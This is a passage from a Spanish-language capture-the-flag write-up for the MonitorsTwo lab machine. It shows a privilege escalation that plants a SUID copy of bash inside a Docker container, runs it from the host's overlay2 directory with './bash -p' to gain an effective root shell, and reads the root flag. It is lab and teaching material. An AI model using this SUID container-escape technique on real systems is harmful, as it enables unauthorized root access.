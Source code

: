 Si copiamos el binario de Bash a la raiz dentro del contenedor y le establecemos el bit SUID, también lo veremos y teniendo de propietario a root

```bash
root@50bca5e748b0:/# cp /bin/bash .
root@50bca5e748b0:/# chmod 4755 bash
```

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff$ ls -la
total 1256
drwxr-xr-x 7 root root    4096 Aug 30 00:41 .
drwx-----x 5 root root    4096 Aug 29 22:40 ..
-rwsr-xr-x 1 root root 1234376 Aug 30 00:41 bash
drwxr-xr-x 2 root root    4096 Mar 22 13:21 bin
drwx------ 2 root root    4096 Mar 21 10:50 root
drwxr-xr-x 3 root root    4096 Nov 15  2022 run
drwxrwxrwt 3 root root   12288 Aug 30 00:41 tmp
drwxr-xr-x 4 root root    4096 Nov 15  2022 var
```

Haciendo `./bash -p` obtendremos una consola como un pseudo-root, y ya podremos ver la última flag

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff$ ./bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# cd /root
bash-5.1# ls
cacti  root.txt
bash-5.1# cat root.txt
6a2c87220be7fd304a6716b5e3******
```

## Extra

Aquí se muestran las direcciones de los contenedores Docker pero debes tener en cuenta que estas podrían cambiar, debido a que normalmente no son permanentes y se asignan en orden incremental (Es decir, si db inicia primero le tocará 172.19.0.2 y a Cacti 172.19.0.3). 